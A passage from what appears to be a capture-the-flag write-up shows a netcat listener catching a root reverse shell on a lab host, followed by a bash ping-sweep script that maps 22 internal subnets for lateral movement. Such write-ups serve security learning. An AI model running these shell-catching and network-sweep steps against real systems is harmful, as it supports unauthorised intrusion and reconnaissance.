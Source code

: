 Here is our bind shell and connection:

```bash
root@kali:~/Desktop/10.10.10.105# nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.13.199] from (UNKNOWN) [10.10.10.105] 44728
bash: cannot set terminal process group (1191): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# whoami
whoami
root
root@r1:~#
```

Alright, lets scan those other networks. Here is our script:

```bash
#!/bin/bash
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.10.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.11.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.12.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.13.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.14.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.15.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.16.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.17.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.18.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.19.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.100.20.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.10.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.11.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.12.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.13.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.14.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.15.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.16.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.17.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.18.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.19.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
for i in $(seq 1 255); do ping -c 1 -W 3 10.120.20.$i | grep "bytes from" | cut -d ' ' -f 4 | cut -d ':' -f 1 >> /tmp/fu.txt & done;
```
